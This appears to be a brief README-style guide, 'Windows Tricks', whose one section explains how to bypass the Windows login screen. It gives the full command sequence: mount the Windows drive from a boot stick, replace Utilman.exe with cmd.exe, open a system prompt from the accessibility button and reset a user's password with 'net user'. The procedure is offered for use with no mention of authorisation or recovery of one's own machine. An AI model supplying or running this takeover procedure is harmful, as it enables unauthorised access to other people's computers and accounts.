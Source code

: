 # Windows Tricks
Guide on certain things Windows


_______________________________________________________________________________
# Cracking a windows password / bypassing the login screen

Boot Into Your Flash Drive And Type These Commands

`fdisk -l`

`mount -t ntfs /dev/(windows drive) /mnt`

`cd /mnt/Windows/System32`

`cp cmd.exe Utilman.exe`

reboot

Click On The Accesibility Button And Type This Command When The CMD Window Lauches

`net user (User) *` 
________________________________________________________________________________
